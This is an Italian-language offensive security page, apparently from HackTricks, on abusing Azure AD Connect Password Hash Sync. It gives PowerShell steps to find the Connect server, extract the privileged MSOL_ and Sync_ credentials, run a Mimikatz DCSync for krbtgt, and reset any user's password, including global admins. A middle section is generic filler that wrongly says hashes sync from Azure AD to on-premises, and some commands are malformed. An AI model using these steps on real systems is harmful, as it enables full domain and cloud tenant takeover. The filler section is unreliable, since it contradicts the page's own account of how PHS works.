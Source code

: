 # Az - PHS - Sincronizzazione dell'hash della password

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informazioni di base

[Dalla documentazione:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **La sincronizzazione dell'hash della password** è uno dei metodi di accesso utilizzati per realizzare l'identità ibrida. **Azure AD Connect** sincronizza un hash, dell'hash, della password di un utente da un'istanza di Active Directory locale a un'istanza di Azure AD basata su cloud.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

È il **metodo più comune** utilizzato dalle aziende per sincronizzare un AD locale con Azure AD.

Tutti gli **utenti** e un **hash degli hash delle password** vengono sincronizzati dall'AD locale ad Azure AD. Tuttavia, **le password in chiaro** o gli **hash originali** non vengono inviati ad Azure AD.\
Inoltre, i **gruppi di sicurezza integrati** (come gli amministratori di dominio...) **non vengono sincronizzati** in Azure AD.

La **sincronizzazione degli hash** avviene ogni **2 minuti**. Tuttavia, per impostazione predefinita, la **scadenza della password** e la **scadenza dell'account** non vengono sincronizzate in Azure AD. Quindi, un utente il cui **password dell'AD locale è scaduta** (non modificata) può continuare ad **accedere alle risorse di Azure** utilizzando la vecchia password.

Quando un utente dell'AD locale desidera accedere a una risorsa di Azure, l'**autenticazione avviene su Azure AD**.

**PHS** è richiesto per funzionalità come **Identity Protection** e AAD Domain Services.

## Pivoting

Quando PHS è configurato, alcuni **account privilegiati** vengono automaticamente **creati**:

* L'account **`MSOL_<installationID>`** viene creato automaticamente nell'AD locale. A questo account viene assegnato un ruolo **Directory Synchronization Accounts** (vedi [documentazione](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) il che significa che ha **autorizzazioni di replica (DCSync) nell'AD locale**.
* Viene creato un account **`Sync_<nome del server ADConnect locale>_installationID`** in Azure AD. Questo account può **reimpostare la password di QUALSIASI utente** (sincronizzato o solo cloud) in Azure AD.

Le password dei due account privilegiati precedenti sono **memorizzate in un server SQL** sul server in cui è installato **Azure AD Connect**. Gli amministratori possono estrarre le password di quegli utenti privilegiati in chiaro.\
Il database si trova in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

È possibile estrarre la configurazione da una delle tabelle, essendo una crittografata:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

La **configurazione crittografata** è crittografata con **DPAPI** e contiene le **password dell'utente `MSOL_*`** nell'AD locale e la password di **Sync\_\*** in AzureAD. Pertanto, compromettendo queste informazioni è possibile ottenere privilegi nell'AD e in AzureAD.

Puoi trovare una [panoramica completa su come queste credenziali vengono memorizzate e decifrate in questa presentazione](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Trovare il **server Azure AD connect**

Se il **server in cui è installato Azure AD Connect** è connesso al dominio (consigliato nella documentazione), è possibile trovarlo con:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abuso di MSOL\_\*

MSOL\_\* è un insieme di cmdlet di PowerShell utilizzate per gestire Azure AD Connect. Queste cmdlet consentono di configurare e gestire la sincronizzazione delle password tra Azure AD e l'infrastruttura locale.

#### Sincronizzazione delle password con PHS

La sincronizzazione delle password con PHS (Password Hash Sync) è una delle modalità di sincronizzazione supportate da Azure AD Connect. In questa modalità, l'hash delle password degli utenti viene sincronizzato da Azure AD al dominio locale, consentendo agli utenti di accedere sia alle risorse cloud che a quelle locali utilizzando la stessa password.

Tuttavia, è importante notare che la sincronizzazione delle password con PHS può essere abusata da un attaccante per ottenere accesso non autorizzato alle risorse locali. Ecco alcuni possibili scenari di abuso:

#### Dump delle password

Un attaccante potrebbe sfruttare una vulnerabilità nel sistema locale per ottenere l'accesso al database delle password sincronizzate. Utilizzando strumenti come Mimikatz, potrebbe estrarre le password in chiaro dal database e utilizzarle per accedere alle risorse locali.

#### Pass-the-Hash

Utilizzando l'hash delle password sincronizzate, un attaccante potrebbe eseguire un attacco di tipo "Pass-the-Hash" per ottenere l'accesso alle risorse locali senza conoscere la password effettiva dell'utente. Questo tipo di attacco sfrutta l'hash delle password per autenticarsi come l'utente legittimo.

#### Brute-force delle password

Un attaccante potrebbe tentare di eseguire un attacco di forza bruta sulle password sincronizzate per ottenere l'accesso alle risorse locali. Utilizzando strumenti automatizzati, potrebbe provare diverse combinazioni di password fino a trovare quella corretta.

#### Conclusioni

La sincronizzazione delle password con PHS offre un modo conveniente per gestire le password tra Azure AD e l'infrastruttura locale. Tuttavia, è importante prendere precauzioni per evitare abusi da parte di attaccanti. È consigliabile implementare misure di sicurezza aggiuntive, come l'autenticazione a più fattori e la gestione delle password complesse, per proteggere le risorse locali da potenziali attacchi.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Puoi anche utilizzare [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) per ottenere queste credenziali.
{% endhint %}

### Abuso di Sync\_\*

Compromettendo l'account **`Sync_*`** è possibile **reimpostare la password** di qualsiasi utente (compresi gli amministratori globali)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
È anche possibile **modificare le password solo degli utenti cloud** (anche se questo è inaspettato)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
È anche possibile estrarre la password di questo utente.

{% hint style="danger" %}
Un'altra opzione sarebbe **assegnare privilegiati permessi a un service principal**, a cui l'utente **Sync** ha **permessi**, e quindi **accedere a quel service principal** come metodo di privesc.
{% endhint %}

### Seamless SSO

È possibile utilizzare Seamless SSO con PHS, che è vulnerabile ad altri abusi. Controlla qui:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Riferimenti

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

